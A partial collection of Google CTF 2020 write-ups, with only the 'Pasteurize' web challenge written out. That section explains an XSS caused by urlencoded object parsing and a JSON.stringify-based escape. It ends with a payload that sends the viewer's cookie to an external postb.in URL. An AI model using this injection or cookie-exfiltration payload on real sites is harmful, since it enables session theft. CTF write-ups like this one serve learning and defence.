




# Google CTF 2020 Writeups


## Hardware

## Crypto

### Chunk Norris

## Pwn

### Tracing

## Reversing

### Beginner

## Web

### Pasteurize



> This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?

This was a very interesting challenge. We are given a URL to view the webpage here: `https://pasteurize.web.ctfcompetition.com/`.



After visiting the website, we see a text box where we can write some text. Upon hitting the submit button, we are redirected to a page with a unique note-id with our message. I also noticed, there was a share with TJMike (similar to report to admin in other CTFs) along with a back button.



Based on other challenges I believed this would be an XSS challenge. Also, when I viewed the page source for a note, there was an HTML comment. I later realized there was hidden anchor tag on the create page as well

```HTML
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
```
```HTML
<a href="/source" style="display:none">Source</a>
```

The contents of the `/source` file seem to be the node.js with express running on the server. You can find the full code here: `https://pasteurize.web.ctfcompetition.com/source` and i will summarize the most important parts for this challenge below!

```js
const express = require('express');
const bodyParser = require('body-parser');
const utils = require('./utils');
const Recaptcha = require('express-recaptcha').RecaptchaV3;
const uuidv4 = require('uuid').v4;
const Datastore = require('@google-cloud/datastore').Datastore;

// Other code

/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));

// Other code

/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');

// Other code

/* \o/ [x] */
app.post('/', async (req, res) => {
  const note = req.body.content;
  if (!note) {
    return res.status(500).send("Nothing to add");
  }
  if (note.length > 2000) {
    res.status(500);
    return res.send("The note is too big");
  }

  const note_id = uuidv4();
  try {
    const result = await DB.add_note(note_id, note);
    if (!result) {
      res.status(500);
      console.error(result);
      return res.send("Something went wrong...");
    }
  } catch (err) {
    res.status(500);
    console.error(err);
    return res.send("Something went wrong...");
  }
  await utils.sleep(500);
  return res.redirect(`/${note_id}`);
});

/* Make sure to properly escape the note! */
app.get('/:id([a-f0-9\-]{36})', recaptcha.middleware.render, utils.cache_mw, async (req, res) => {
  const note_id = req.params.id;
  const note = await DB.get_note(note_id);

  if (note == null) {
    return res.status(404).send("Paste not found or access has been denied.");
  }

  const unsafe_content = note.content;
  const safe_content = escape_string(unsafe_content);

  res.render('note_public', {
    content: safe_content,
    id: note_id,
    captcha: res.recaptcha
  });
});

/* Share your pastes with TJMike🎤 */
app.post('/report/:id([a-f0-9\-]{36})', recaptcha.middleware.verify, (req, res) => {
  const id = req.params.id;

  /* No robots please! */
  if (req.recaptcha.error) {
    console.error(req.recaptcha.error);
    return res.redirect(`/${id}?msg=Something+wrong+with+Captcha+:(`);
  }

  /* Make TJMike visit the paste */
  utils.visit(id, req);

  res.redirect(`/${id}?msg=TJMike🎤+will+appreciate+your+paste+shortly.`);
});

// More code :)
```

First I tried to put some HTML tags into the note.
```HTML
<h1>Heading 1</h1>
<h3>Heading 3</h3>
```

And to my surprise this does work!


Maybe this is going to be pretty easy after all? Well, I tried all the normal XSS techniques such as:
```HTML
<script>alert(1);</script>

<div onload=alert(1);>
```

Unfortunately nothing worked... Upon further examining the HTML page source for the note, I came accross an interesting script tag.
```HTML
<script>
    const note = "the_contents_of_the_user_note_goes_here";
    const note_id = "b0437736-2536-43da-9dc6-83045ab51b5a";
    const note_el = document.getElementById('note-content');
    const note_url_el = document.getElementById('note-title');
    const clean = DOMPurify.sanitize(note);
    note_el.innerHTML = clean;
    note_url_el.href = `/${note_id}`;
    note_url_el.innerHTML = `${note_id}`;
</script>
```

At first, I wondered if I could find a vulnerability in DOMPurify. However, when I learned that it was a very recent version, I realize that I probably couldn't. Then, I realized that since my not is being put into a script tag, could I put a double-quote to escape the string and write some JavaScript code? Upon trying, all I got was this:

```js
const note = "\"alert(1);";
```

Clearly that isn't so useful. After lots of googling and many rough hours, I got it. I was able to escape the string and put my own JavaScript code. In the node.js source, we can see that they are using `app.use(bodyParser.urlencoded({extended: true}));`. This means that this app is able to take JSON objects.
<br>
To understand how to send a JSON object in an HTTP request, we first need to understand how to send strings. Normally, the post request form data looks like this: `content=value` and then the server runs a line like `const note = req.body.content;` to get the value in content as a string where "value" is stored in note. However, we can send a post request where the data is like this: `content[key]=value` and when the server runs a line like `const note = req.body.content;`, it will parse this as an object and the value of note will be {"key":"value"}.
<br>
With this in mind, we are almost ready to create the final payload. We also look at this line of code: `const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E');`. Although this function seems to be harmless, taking an unsafe string and replacing the `<` and `>` with their hex values, we can still abuse it. Since JSON.stringify can take both a value/string or an object, this function converts our object into a string and when it slices the `{` and `}`, we will be left with just `"key":"value".

With all this in mind, we can create a payload something like this: `content[;alert(1);//]=comment`. The object that results {";alert(1);//" : "comment"}. After running the "escape_string()" function on this we get ";alert(1);//" : "comment". Putting this into the HTML script tag from earlier we get the following:

```HTML
<script>
    const note = "";alert(1);//" : "comment"";
</script>
```

It seems we are able to escape the string and write code directly into script tag allowing us to execute any JavaScript code we want. Finally we design a payload where we add an img tag with the src set to a `postb.in` with the viewer's cookie as the get parameter

Final Payload: `content[;var i = document.createElement('img');i.setAttribute('src', 'https://postb.in/1598226543319-6224465125706/?cookie='%2Bdocument.cookie);document.body.appendChild(i);//first]=second`

### Log-Me-In

## Sandbox

### Writeonly